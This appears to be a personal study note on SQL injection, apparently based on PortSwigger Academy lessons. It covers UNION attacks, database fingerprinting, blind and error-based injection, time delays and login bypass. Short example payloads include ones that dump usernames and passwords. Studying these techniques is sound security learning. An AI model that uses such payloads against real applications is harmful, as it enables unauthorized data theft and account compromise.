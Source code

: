 # Retrieving hidden data

simple attack -> `'+OR+1=1--`  [[WEB/vulnerabilities/SQL Injection/attack/payload#Retrieving hidden data#simple attack|example]]

## UNION attacks
##### concept:
<mark style="background: #FFB86CA6;">to retrieve data from other tables</mark> ->
- The individual queries must return the **same number of columns**.
- The **data types** in each column must be compatible between the individual queries.
### 1) number of columns required
- use `ORDER BY` -> `' ORDER BY [number]--` until you hit an error
- use `UNION SELECT` -> `' UNION SELECT NULL,NULL[...]--` -> until additional row in the result set (it is possible to get erros like `NullPointerException` or even same response as without null ) 
**Note**: On _Oracle_ databases, every `SELECT` statement must specify a table to select -> use `from dual`
### 2) Finding columns with a useful data type

- interesting data type = normally string type -> `UNION SELECT` 
```sql
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```
`Conversion failed when converting the varchar value 'a' to data type int.` -> probably not suitable 

### 3) retrieve interesting data
- for example username and password from a table called users:
`' UNION SELECT username, password FROM users--`
#### multiple values within a single column
- use String Concatenation (different databases use different syntax) [[cheatsheet(portswigger)#String concatenation|see cheatsheet]]
	- example: `||` ->  `' UNION SELECT username || '~' || password FROM users--`  
## Examining the database

- database type and version [[WEB/vulnerabilities/SQL Injection/attack/payload#Examining the database|examples]]
	- _Microsoft, MySQL_ -> `SELECT @@version`
	- _PostgreSQL_ -> `SELECT version()`
	- _Oracle_ -> `SELECT * FROM v$version`
## Listing the contents 

- _Oracle_ [[WEB/vulnerabilities/SQL Injection/attack/payload#Listing the contents|examples]]
  - `all_tables`
  - `all_tab_columns`
- _all other databases_ -> `information_schema` 
  - `information_schema.tables`
  - `information_schema.columns`

# Blind SQL injection
##### concept:
-> when HTTP responses <mark style="background: #ADCCFFA6;">do not contain</mark> the *results of the relevant SQL query* or the *details of any database errors*.
## triggering conditional responses

1) the application does *behave differently(in response)* when faces with true/false conditional statement (example: `'1'='1` / `'1'='2`) in:
	- Parameters 
	- Cookies
	- HTTP Headers
2) determine the length of data you want to retrive using *`LENGTH`* 
3) use: 
	- Oracle: *`SUBSTR`*
	- non-Oracle: *`SUBSTRING`* [[WEB/vulnerabilities/SQL Injection/attack/payload#triggering conditional responses|example]]
## Error-based

### triggering conditional errors
- injecting different boolean conditions makes no difference to the application's responses -> *raise an error* by *injecting a condition query* -> use *`CASE`* keyword [[WEB/vulnerabilities/SQL Injection/attack/payload#triggering conditional errors|examples]]
### verbose SQL error messages

- verbose error -> find out about *context* -> easier to construct a valid query:
> `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`

- generate an error message that *contains some of the data* that is returned by the query -> turns blind into visible -> use *`CAST()`* keyword: [[WEB/vulnerabilities/SQL Injection/attack/payload#verbose SQL error messages|example]]
>`CAST((SELECT example_column FROM example_table) AS int)`
>-> `ERROR: invalid input syntax for type integer: "Example data"`
## triggering time delays

 - application catches database errors and handles them -> *delay* in *execution* of the SQL *query* [[WEB/vulnerabilities/SQL Injection/attack/payload#triggering time delays|examples]]
look for syntax in different databases -> [[cheatsheet(portswigger)#Time delays|Here]]

## out-of-band (OAST) techniques
#todo 

# Subverting application logic

simple attack -> `'--` [[WEB/vulnerabilities/SQL Injection/attack/payload#Subverting application logic#simple attack|example]]

# in different context 
#todo 
# Second-order SQL injection 
#todo 
